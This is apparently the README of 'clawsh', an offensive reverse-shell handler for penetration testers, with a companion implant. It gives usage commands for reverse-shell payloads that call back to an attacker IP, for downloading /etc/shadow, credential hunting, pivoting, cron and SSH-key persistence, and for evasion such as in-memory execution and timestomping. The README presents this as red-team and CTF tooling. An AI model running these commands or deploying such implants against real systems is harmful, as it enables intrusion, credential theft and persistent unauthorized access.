




<p align="center">
  <h1 align="center">🦀 clawsh</h1>
  <p align="center">
    <strong>Async reverse shell framework — single binary, zero dependencies</strong>
  </p>
  <p align="center">
    <a href="#installation">Installation</a> •
    <a href="#quick-start">Quick Start</a> •
    <a href="#features">Features</a> •
    <a href="#modules">Modules</a> •
    <a href="#plugins">Plugins</a> •
    <a href="#license">License</a>
  </p>
</p>

---

> **v1.0.3** — Linux x86_64 — Binary release only

clawsh is a reverse shell handler for penetration testers and red teamers. It combines session management, post-exploitation automation, and pivoting capabilities in a single ~6 MB static binary with no runtime dependencies.

Built in Rust with tokio for async I/O. Handles dozens of simultaneous sessions without blocking.

> **Companion implant**: [clawsh-imp](https://github.com/y0uall/clawsh-imp) — a lightweight Linux implant (~1.7 MB) that pairs natively with clawsh. Binary-only distribution, no Rust toolchain required.

## Screenshots









## Installation

Download the latest release from the [Releases](../../releases) page.

```bash
# Extract
tar xzf clawsh-v1.0.3-linux-x86_64.tar.gz
cd clawsh

# Install binary
cp clawsh ~/.local/bin/
chmod +x ~/.local/bin/clawsh

# Install plugins (Rhai scripts)
mkdir -p ~/.local/share/clawsh/plugins
cp scripts/*.rhai ~/.local/share/clawsh/plugins/

# Verify
clawsh --version
clawsh modules
```

Or run portably from any directory — clawsh auto-discovers plugins in `<binary-dir>/scripts/`.

## Quick Start

### Start a listener

```bash
clawsh listen -p 4444                       # TCP
clawsh listen -p 4444 --tls                 # TLS encrypted
clawsh listen -p 4444,8080,9999 --tls       # Multi-port + TLS
clawsh listen -p 4444 --tls --record        # With session recording
```

### Generate payloads

```bash
clawsh payload bash                          # Bash (auto-detects tun0 IP, port 4444)
clawsh payload python                        # Python3
clawsh payload php                           # PHP
clawsh payload nc-pipe                       # Netcat (FIFO)
clawsh payload powershell                    # PowerShell
clawsh payload bash -H 10.10.14.5           # Explicit LHOST
clawsh payload bash -H 10.10.14.5 -P 9001   # Explicit LHOST + port
clawsh payload bash --encode                 # URL-encoded
```

Available types: `bash`, `bash-udp`, `python`, `nc`, `nc-pipe`, `powershell`, `socat`, `perl`, `php`, `ruby`

### Typical workflow

```
$ clawsh listen -p 4444 --tls --record

  clawsh v1.0.3 by uall
[+] Listening on 0.0.0.0:4444 (TLS)  →  10.10.14.5
    25 module(s) loaded

clawsh> use 0
[session 0] upgrade
[session 0] run sysinfo
[session 0] run users
[session 0] run credential_hunt
[session 0] run container
[session 0] run flags

[session 0] upload ./chisel /dev/shm/chisel
[session 0] download /etc/shadow ./loot/shadow

[session 0] fwd -L 8080 10.10.10.100 80
[session 0] fwd -L 3306 10.10.10.100 3306
[session 0] socks 1080

[session 0] persist cron 10.10.14.5 4444
[session 0] persist sshkey ssh-ed25519 AAAA...

  --- after engagement ---

[session 0] persist --clean
```

## Features

### Transport & Listener

| Feature | Description |
|---------|-------------|
| **Multi-port TCP** | `-p 4444,8080,9999` — listen on multiple ports simultaneously |
| **TLS encryption** | `--tls` with auto-generated self-signed cert (cached) or custom PEM |
| **TCP keepalive** | Automatic dead connection detection (30s interval) |
| **Reconnect tracking** | Recognizes returning IPs and shows reconnection count |

### Shell & PTY

| Feature | Description |
|---------|-------------|
| **Auto PTY upgrade** | Detects python3/python2/script/expect, upgrades automatically |
| **Raw terminal mode** | Arrow keys, tab completion, Ctrl+C passthrough |
| **SIGWINCH forwarding** | Terminal resize propagated to remote |
| **PTY health check** | `downgrade` checks PTY state, degrades if dead |
| **Shell stabilization** | stty raw, TERM export, bracketed-paste disabled |

### Session Management

| Feature | Description |
|---------|-------------|
| **Multi-session** | Unlimited concurrent sessions with named tags |
| **Background/foreground** | `use <id>`, `bg`, `kill <id>` |
| **Session notes** | `note <id> <text>` — attach notes per session |
| **Session recording** | `--record` saves as asciinema v2 `.cast` files |
| **Graceful shutdown** | Detects connection loss, notifies automatically |

### File Transfer

| Feature | Description |
|---------|-------------|
| **Upload** | Auto-selects base64 (small files) or embedded HTTP server (large files) |
| **Download** | Base64-encoded download of any remote file |
| **SHA256 verification** | Automatic integrity check after every transfer |
| **Stealth mode** | `--stealth` or OpSec-active: auto-timestomping after upload |
| **In-memory execution** | `exec-mem` — memfd_create + fexecve, no file touches disk |

### Port Forwarding & Pivoting

| Feature | Description |
|---------|-------------|
| **Local forward** | `fwd -L <lport> <rhost> <rport>` — attacker:lport → target network |
| **Remote forward** | `fwd -R <rport> <lhost> <lport>` — target:rport → attacker |
| **SOCKS5 proxy** | `socks <port>` — RFC 1928 compliant, route traffic through session |
| **Auto method selection** | Uses socat, netcat, or python — whatever is available |

### Post-Exploitation

| Feature | Description |
|---------|-------------|
| **26+ modules** | Native Rust + Rhai scripts for enumeration, persistence, privesc |
| **Credential vault** | `creds add/search/export` — collect and manage found credentials |
| **Loot manager** | SHA256-tagged file inventory with session association |
| **Persistence** | 4 methods (cron, sshkey, bashrc, systemd) — all reversible with `persist --clean` |
| **Event hooks** | `hook on_session_connect <script>` — auto-run Rhai on new sessions |

### OpSec Guard

| Feature | Description |
|---------|-------------|
| **Command scanning** | 44 tool signatures across 3 severity levels (critical/warn/info) |
| **Upload analysis** | Filename and path scanning before transfer |
| **Module warnings** | Alerts before running noisy modules (linpeas, privesc_auto, etc.) |
| **Auto-timestomping** | Automatic `touch -r` after uploads when OpSec is active |
| **Persistent config** | `opsec on/off` survives restart via config.toml |

### Operator Quality of Life

| Feature | Description |
|---------|-------------|
| **Aliases** | `alias ll "run sysinfo"` — persistent in config.toml |
| **Payload generator** | 10 payload types with optional URL encoding |
| **Comprehensive help** | `help` + 16 sub-topics (`help transfer`, `help fwd`, `help tls`, etc.) |
| **CTF flag hunter** | `run flags` — auto-discovers flags for HTB/THM/CTF |
| **Container detection** | Docker/LXC/K8s awareness with escape vector analysis |

## Modules

### Enumeration — Native (6)

| Module | Description |
|--------|-------------|
| `sysinfo` | OS, kernel, architecture, hostname, uptime |
| `users` | Users, groups, sudo rights, logged-in sessions |
| `suid` | SUID/SGID binaries with GTFOBins highlighting |
| `linpeas` | Downloads latest LinPEAS to target (manual execution) |
| `container` | Docker/LXC/K8s detection, escape vector analysis |
| `flags` | CTF flag hunter — finds flags, secrets, credentials |

### Enumeration — Rhai Scripts (16)

| Module | Description |
|--------|-------------|
| `cron_enum` | Cron jobs, systemd timers, at jobs |
| `network` | Interfaces, ports, routes, DNS, ARP, firewall rules |
| `writable` | World-writable directories/files, PATH analysis |
| `capabilities` | Linux capabilities with privesc highlighting |
| `kernel_exploit` | Kernel version analysis, known exploit suggestions |
| `credential_hunt` | Shadow, history, SSH keys, git creds, cloud creds, .env files |
| `cloud_meta` | Cloud IMDS — AWS IAM, GCP Service Accounts, Azure MI |
| `defense_detect` | AV/EDR detection, SELinux, AppArmor, auditd, fail2ban |
| `ssh_enum` | SSH config, keys, known_hosts, agent, ProxyJump |
| `proc_enum` | Process tree, interesting services, ptrace scope |
| `interesting_files` | Backups, databases, password stores, web configs |
| `env_secrets` | Secrets in env, /proc/*/environ, .env files |
| `container_escape` | Docker escape vectors (socket, privileged, cgroup) |
| `privesc_auto` | Automated privilege escalation check |
| `anti_forensics` | Anti-forensics enumeration |
| `tool_hunt` | LotL tool inventory — compilers, transfer tools, interpreters, debug utilities |

### Persistence (4, fully reversible)

| Module | Method | Cleanup |
|--------|--------|---------|
| `cron` | Cron job reverse shell (every 5 min) | Restores original crontab |
| `sshkey` | SSH authorized_keys injection | Removes injected key |
| `bashrc` | .bashrc hook with markers | Removes block between markers |
| `systemd` | systemd user/system service | Stops service + deletes unit file |

All persistence is tracked and removed in reverse order with `persist --clean`.

## Plugins

clawsh uses the [Rhai](https://rhai.rs) scripting engine for extensible modules. Drop `.rhai` files into the plugins directory and they load automatically at startup.

### Writing a plugin

```javascript
// @name: my_module
// @description: Custom enumeration module
// @category: enumerate
// @target_os: linux
// @author: you
// @version: 1.0

let whoami = exec_cmd("whoami");
let kernel = exec_cmd("uname -r");

let output = "=== My Module ===\n";
output += "\x1b[1mUser:\x1b[0m " + whoami.trim() + "\n";
output += "\x1b[33mKernel:\x1b[0m " + kernel.trim() + "\n";
print_output(output);

let RESULT = "Scan complete";
let DATA = #{ user: whoami.trim(), kernel: kernel.trim() };
```

### API

| Function | Description |
|----------|-------------|
| `exec_cmd(cmd)` | Execute command on target (30s timeout) |
| `exec_cmd_timeout(cmd, secs)` | Execute with custom timeout |
| `print_output(text)` | Send output to operator (supports ANSI colors) |
| `get_os()` | Get target OS string |

### Plugin directories (checked in order)

1. `~/.local/share/clawsh/plugins/`
2. `<binary-dir>/scripts/`
3. Custom paths via `config.toml`

Use `reload` to hot-reload plugins without restarting.

## Configuration

Optional config file at `~/.config/clawsh/config.toml`:

```toml
[listener]
bind = "0.0.0.0"
port = 4444

[shell]
auto_upgrade = true
term = "xterm-256color"

[opsec]
enabled = true

[logging]
record_sessions = false
directory = "~/.local/share/clawsh/logs"

[plugins]
directories = ["~/.local/share/clawsh/plugins"]

[aliases]
aliases = { "si" = "run sysinfo", "ch" = "run credential_hunt" }
```

## Comparison

| Feature | 🦀 clawsh | pwncat-cs | penelope |
|---------|-----------|-----------|----------|
| **Language** | Rust (binary) | Python | Python |
| **Size** | ~6 MB | ~50 MB+ | ~30 MB+ |
| **Dependencies** | None | pip/venv | pip |
| **Port Forwarding** | ✅ Local + Remote + SOCKS5 | ✅ Local/Remote | ❌ |
| **In-Memory Exec** | ✅ memfd_create | ❌ | ❌ |
| **Container Detection** | ✅ Docker/LXC/K8s + escapes | ❌ | ❌ |
| **OpSec Guard** | ✅ 44 signatures, 3 levels | ❌ | ❌ |
| **Credential Vault** | ✅ Built-in | ❌ | ❌ |
| **Module System** | ✅ Native + Rhai | ✅ Python | ❌ |
| **Session Recording** | ✅ asciinema v2 | ✅ Transcript | ❌ |
| **TLS** | ✅ Auto-cert or custom PEM | ✅ Manual | ✅ Manual |
| **Auto PTY Upgrade** | ✅ | ✅ | ✅ |
| **Windows Targets** | ❌ Planned (v2.0) | ✅ Partial | ❌ |

## Keyboard Shortcuts

| Context | Key | Action |
|---------|-----|--------|
| PTY mode | `Ctrl+D` | Detach session (background) |
| clawsh prompt | `Ctrl+D` | Return to PTY session |
| clawsh prompt | `Ctrl+C` | Quit clawsh |

## Companion Implant

[**clawsh-imp**](https://github.com/y0uall/clawsh-imp) is the native implant built for this framework.

| Property | Value |
|----------|-------|
| Size | ~1.7 MB (stripped, LTO, musl-optional) |
| Platform | Linux x86_64 / aarch64 |
| Distribution | Binary-only, no Rust toolchain required |
| Config | `builder.sh` patches template binary in-place |
| Encryption | X25519 ECDH → HKDF → ChaCha20-Poly1305 |
| Stealth | Self-delete, argv[0] rewrite, EDR detection, decoy syscalls |

### Workflow

```bash
# 1. Download template + builder from clawsh-imp releases
# 2. Patch binary with your handler config (no Rust required)
./builder.sh --host 10.10.14.5 --port 4444 --psk "secret" --tls

# 3. Start listener
clawsh listen -p 4444 --tls

# 4. Deploy implant — it connects back, handshakes, enters agent mode
# 5. Interact via clawsh agent commands
clawsh> sessions
clawsh> use agent-0
agent(root@target)> recon sysinfo
agent(root@target)> recon privesc
agent(root@target)> noise loud
agent(root@target)> shell
```

## Inspired by

- **[pwncat-cs](https://github.com/calebstewart/pwncat)** — automated Linux post-exploitation
- **[Penelope](https://github.com/brightio/penelope)** — interactive shell handler with auto-upgrade

clawsh combines pwncat's depth with Penelope's interactive UX — in a single, fast Rust binary.

## License

**Proprietary Software** — All Rights Reserved. See [LICENSE](LICENSE) for full terms.

This software is distributed as a pre-compiled binary. Source code is not included.

Permitted use:
- Personal use
- Educational purposes
- Authorized security testing and penetration testing engagements
- CTF competitions
- Defensive security research

You may **not** reverse engineer, redistribute, or create derivative works without written consent.

---

<p align="center">
  <sub>Built by uall</sub>
</p>
